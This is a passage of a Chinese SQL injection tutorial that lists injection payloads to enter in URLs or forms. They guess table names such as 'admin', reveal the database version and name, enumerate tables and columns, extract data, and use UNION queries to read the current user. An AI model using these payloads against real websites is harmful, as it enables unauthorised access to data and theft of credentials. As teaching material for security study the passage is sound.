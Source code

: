 
   -  猜测表名：在URL或表单中输入如下语句，看是否存在admin这张表。 
```sql
and 0<> (select count (*) from *)
#或
and 0<> (select count (*) from admin)
```
 

   -  获取数据库版本：在URL或表单中输入如下语句，看是否能显示数据库版本。 
```sql
and 1= (select @@VERSION)
#或
and 1= (select version())
```
 

   -  获取数据库名：在URL或表单中输入如下语句，看是否能显示数据库名。 
```sql
and 1= (select db_name ())
#或
and 1= (select database())
```
 

   -  获取表名：在URL或表单中输入如下语句，看是否能显示表名。 
```sql
and 1= (select top 1 name from sysobjects where xtype='U')
#或
and 1= (select table_name from information_schema.tables limit 1)
```
 

   -  获取列名：在URL或表单中输入如下语句，看是否能显示列名。 
```sql
and 1= (select top 1 name from syscolumns where id=object_id('表名')
#或
and 1= (select column_name from information_schema.columns where table_name='表名'limit 1)
```
 

   -  获取数据：在URL或表单中输入如下语句，看是否能显示数据。 
```sql
and 1= (select top 1 列名 from 表名)
#或
and 1= (select 列名 from 表名 limit 1)
```
 
## 四、SQL注入中的常用命令

   1.  SQL注入中的常用命令示例： 
      -  查看当前用户 
```sql
union select 1, (select user ())–+
```
 

      -  查看数据库版本 
```sql
union select 1, (select version ())–+
```
 